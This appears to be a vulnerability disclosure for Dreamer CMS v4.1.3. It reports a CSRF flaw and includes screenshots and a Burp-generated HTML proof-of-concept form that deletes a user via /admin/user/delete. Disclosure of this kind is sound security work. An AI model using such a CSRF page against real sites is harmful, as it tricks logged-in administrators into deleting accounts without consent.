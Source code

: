 Target is https://github.com/iteachyou-wjn/dreamer_cms

version:4.1.3

Dreamer CMS v4.1.3 was discovered to contain a Cross-Site Request Forgery (CSRF) via the component /admin/u/toIndex.

![1699360243454](https://raw.githubusercontent.com/CP1379767017/cms/dreamcms_vul/images/dreamer-del_user01.png)

create poc

![图片](https://raw.githubusercontent.com/CP1379767017/cms/dreamcms_vul/images/dreamer-del_user02.png)


```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://localhost:8888/admin/user/delete">
      <input type="hidden" name="id" value="1443c458e49c44539b63212cba8b9b1e" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>

```
![图片](https://raw.githubusercontent.com/CP1379767017/cms/dreamcms_vul/images/dreamer-del_user03.png)


successed

![图片](https://raw.githubusercontent.com/CP1379767017/cms/dreamcms_vul/images/dreamer-del_user04.png)
